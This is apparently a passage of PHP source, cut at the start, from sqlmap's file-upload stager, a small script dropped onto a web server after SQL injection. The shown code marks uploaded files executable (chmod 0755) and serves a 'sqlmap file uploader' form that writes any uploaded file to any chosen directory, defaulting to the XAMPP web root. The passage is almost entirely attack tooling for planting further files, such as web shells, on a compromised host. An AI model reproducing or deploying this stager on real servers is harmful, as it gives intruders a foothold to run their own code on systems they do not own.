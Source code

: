         @chmod($dir."/".$file, 0755);
        echo "File uploaded";
    }
    else {
        echo "
        <form 
            action=".$_SERVER["PHP_SELF"]."
            method=POST
            enctype=multipart/form-data
        >
            <input type=hidden name=MAX_FILE_SIZE value=1000000000>
                <b>sqlmap file uploader</b>
                <br>
                <input name=file type=file>
                <br>
                to directory: 
                <input type=text name=uploadDir value=\\xampp\\htdocs\\>
                <input type=submit name=upload value=upload>
        </form>
        ";
    }
    ?>
